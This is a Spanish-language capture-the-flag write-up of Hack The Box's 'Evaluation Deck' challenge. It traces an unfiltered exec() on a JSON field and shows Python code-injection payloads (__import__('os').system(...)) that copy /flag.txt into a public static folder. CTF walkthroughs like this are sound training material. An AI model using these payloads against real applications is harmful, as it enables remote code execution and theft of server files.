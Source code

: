 ```yaml
---
title: Hack The Boo 2022 - Evaluation Deck
layout: post
description: La resolución del reto "Evaluation Deck" del CTF "Hack The Boo 2022" organizado por Hack The Box.
tags:
- HackTheBox
- EvaluationDeck
- ctf
- post
- writeups
---
```

# Descripción
---

A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

# Solución
---

El primer reto web del CTF nos presenta con un fantasma al que debemos derrotar seleccionando pares de cartas.

![](/images/images-hacktheboo2022/ed-1.png)

Tenemos un contador de turnos que disminuye por cada carta que elegimos, y también tenemos la vida del fantasma.

![](/images/images-hacktheboo2022/ed-2.png)

Si se nos acaban los turnos nos muestra una pantalla de "game over".

![](/images/images-hacktheboo2022/ed-3.png)

Si ganamos nos muestra una pantalla de "victory". 

Estas serían todas las funcionalidades de la aplicación web.

![](/images/images-hacktheboo2022/ed-4.png)

Muy entretenido el juego xD, pero necesitamos buscar una forma de conseguir la flag y no hemos encontrado ningún **input** donde podamos inyectar comandos, comillas o simbolos raros con el fin de romper algo. Por suerte el reto nos entrega el código fuente con un **dockerfile** para poder replicar la aplicación de manera local y así agilizar todo el testing.

Leyendo el archivo **Dockerfile** podemos saber que la flag se encuentra en `/flag.txt` y que la aplicación se encuentra en `/app`. Si queremos ver una imagen `card1.png` la ruta absoluta a esa imagen en el servidor es `/app/application/static/images/card1.png`, esta información nos servirá más tarde.

![](/images/images-hacktheboo2022/ed-5.png)

Leyendo el código nos encontramos con el uso de las funciones `compile()` y `exec()`, estas son funciones de python que pueden llegar a ser muy peligrosas.

![](/images/images-hacktheboo2022/ed-18.png)

Estas funciones se ejecutan cuando realizamos una petición a la ruta `/get_health` con el método `POST`.

![](/images/images-hacktheboo2022/ed-7.png)

Entendiendo el código vemos que primero debemos enviar un json, y después de comprobar que los datos son json la aplicación toma los valores de `current_health`, `attack_power` y `operator`. Es decir que nuestra petición debería verse así:

```perl
{
   "current_health": "algún valor",
   "attack_power": "algún valor",
   "operator": "algún valor"
}
```

En la tercera parte vemos que estos 3 valores se pasan directamente a la función `compile()` sin ningún filtro y el resultado de esto será ejecutado por la función `exec()`. Notamos que `current_health` y `attack_power` están dentro de una función `int()`, por lo tanto, estos dos valores solo pueden ser números. No podremos inyectar nada malicioso en estas dos variables o tendremos un error.

Así empezamos a construir nuestra inyección de comandos.

```perl
{
    "current_health": 10,
    "attack_power": 10,
    "operator": "inyección de comandos"
}
```

![](/images/images-hacktheboo2022/ed-8.png)

Para armar nuestras peticiones y probarlas en la aplicación web de forma más cómoda usaremos Postman.

Primero indicaremos la URL donde se encuentra la función que llamó nuestra atención anteriormente, cambiaremos el método a POST y agregaremos una nueva cabecera con el key `Content-Type` y el value `application/json`.

![](/images/images-hacktheboo2022/ed-35.png)

Vamos a la pestaña **Body** y cambiamos la opción de **none** a **raw** donde pegaremos el payload que creamos anteriormente.

```perl
{
    "current_health": 10,
    "attack_power": 10,
    "operator": "inyección de comandos"
}
```
Después de pegar nuestro payload haremos click en el botón **Send**.

![](/images/images-hacktheboo2022/ed-23.png)

Vemos que la petición falló basicamente porque el comando que construimos `10 inyección de comandos 10` no significa nada y produce un error.

![](/images/images-hacktheboo2022/ed-24.png)

Si ahora modificamos el valor de operator por una suma y le damos al botón de **Send** deberiamos obtener una respuesta correcta.

![](/images/images-hacktheboo2022/ed-25.png)

El comando que construimos es `10 + 10` y el servidor nos responde con un `20`.

![](/images/images-hacktheboo2022/ed-26.png)

Buscando formas de inyectar comandon en una función `exec()` nos encontramos con esta página de HackTricks [Link de la página](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#eval-ing-python-code)

Ingresamos el primer payload para ejecutar comandos.

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('ls') +"
}
```

![](/images/images-hacktheboo2022/ed-27.png)

El servidor no nos arroja ningún error, pero tampoco podemos ver el output del comando.

![](/images/images-hacktheboo2022/ed-28.png)

La primera idea que tuve fue copiar y pegar la flag dentro de la carpeta del proyecto y así poder verla desde la página web con el siguiente comando:

```bash
cp /flag.txt > /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('cp /flag.txt > /app/application/static/flag.txt') +"
}
```

![](/images/images-hacktheboo2022/ed-29.png)

Ahora el servidor no nos responde con 20, si no con 276, esto es porque suma el código de salida del comando. Si el comando se ejecutó correctamente el código de salida es 0, si ocurre algún error el número será mayor a 0. Podemos deducir que el comando falló.

![](/images/images-hacktheboo2022/ed-30.png)

Si vamos a la dirección donde supuestamente copiamos la flag no encontraremos nada.

![](/images/images-hacktheboo2022/ed-31.png)

Lo que hice fue crear un archivo llamado `flag.txt`.

```bash
touch /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('touch /app/application/static/flag.txt') +"
}
```

Notamos que el comando se ejecutó correctamente ya que el resultado es 20, porque `10 + (código de estado del comando) + 10` es `20`.

![](/images/images-hacktheboo2022/ed-32.png)

Después ejecuté el comando `cat` a la flag y redirigí el output al archivo que creé.


```bash
cat /flag.txt > /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('cat /flag.txt > /app/application/static/flag.txt') +"
}
```

![](/images/images-hacktheboo2022/ed-33.png)

Ejecutamos una petición GET al archivo donde acabamos de pegar el contenido de la flag `/static/flag.txt` y así obtenemos la flag.

![](/images/images-hacktheboo2022/ed-34.png)


# Flag
---

`HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}`
